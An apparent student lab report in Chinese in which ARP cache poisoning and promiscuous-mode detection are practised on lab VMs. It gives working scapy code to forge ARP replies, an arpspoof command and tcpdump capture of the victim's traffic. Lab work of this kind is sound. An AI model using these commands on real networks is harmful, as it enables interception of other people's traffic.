# 实验环境

使用VMware，两台ubuntu，一台Kali


设定所有的机子都使用vmnet2





查看三台IP：










# 实验一：检测局域网中的异常终端


观察被攻击者（ubuntu）上是否启用了`混杂模式`：




可以看到是没有的


启动kali（攻击者）上的scapy：

执行`sudo scapy`





尝试发动攻击


```
promiscping("192.168.234.128")
```

可以看到攻击失败了





随后打开被攻击者的`混杂模式`


```
sudo ip link set ens33 promisc on
```




再次发起攻击，成功：




# 实验二：手工单步“毒化”目标主机的ARP缓存

- 这里修改了IP地址，见文末问题记录


以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```

    # 获取当前局域网的网关 MAC 地址
    # 构造一个 ARP 请求
    arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.130.2")
    
    # 查看构造好的 ARP 请求报文详情
    arpbroadcast.show()
    
    # ###[ Ethernet ]###
    #   dst= ff:ff:ff:ff:ff:ff
    #   src= 08:00:27:bd:92:09
    #   type= ARP
    # ###[ ARP ]###
    #      hwtype= 0x1
    #      ptype= IPv4
    #      hwlen= None
    #      plen= None
    #      op= who-has
    #      hwsrc= 08:00:27:bd:92:09
    #      psrc= 192.168.0.103
    #      hwdst= 00:00:00:00:00:00
    #      pdst= 192.168.0.1
    
    # 发送这个 ARP 广播请求
    recved = srp(arpbroadcast, timeout=2)
    
    # 网关 MAC 地址如下
    gw_mac = recved[0][0][1].hwsrc
    
    # 伪造网关的 ARP 响应包
    # 准备发送给受害者主机 192.168.0.102
    # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    arpspoofed=ARP(op=2, psrc="192.168.130.2", pdst="192.168.130.130", hwdst="08:00:27:bd:92:09")
    
    # 发送上述伪造的 ARP 响应数据包到受害者主机
    sendp(arpspoofed)
    
```
    





查看ubuntu1（靶机） ：


```
ip neigh
```




尝试在kali上抓包

```
    tcpdump -i eth0 -n
```


成功抓到靶机的包




随后在kali上恢复靶机的arp缓存


```

restorepkt1 = ARP(op=2, psrc="192.168.130.2", hwsrc="08:00:27:bd:92:09", pdst="192.168.130.130")
sendp(restorepkt1, count=100, inter=0.2)
```


# 实验三：使用自动化工具完成 ARP 投毒劫持实验


使用`arpspoof`：


 ```shell
    arpspoof -i eth0 -t 192.168.130.130 192.168.130.2
```





尝试抓包：

```
    tcpdump -i eth0 -n
```

成功




# 遇到的问题


- VMware的局域网里可以正常连接，但是一开始是没有IP的，所以需要开启dhcp，帮助分配IP
- VMware的仅主机局域网内是没有网关的，不适合进行试验，换成NAT局域网后有网关

